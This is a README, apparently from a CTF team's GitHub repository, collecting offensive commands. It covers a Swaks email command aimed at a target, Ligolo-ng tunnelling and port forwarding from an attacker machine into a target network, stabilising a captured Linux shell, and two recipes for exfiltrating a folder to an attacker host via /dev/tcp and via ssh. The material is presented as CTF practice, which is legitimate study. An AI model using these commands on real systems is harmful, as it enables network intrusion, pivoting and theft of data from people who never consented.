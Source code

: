 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
- [Stabilizing Linux shell](#stabilizingLinuxShell)
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


## Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

## Exfiltrating Data
### via TCP socket, ebcdic and base64
On kali:
```
nc -nlvp 80 > datafolder.tmp
```
On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### via SSH
On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
On kali:
```
cd /tmp/datafolder
```
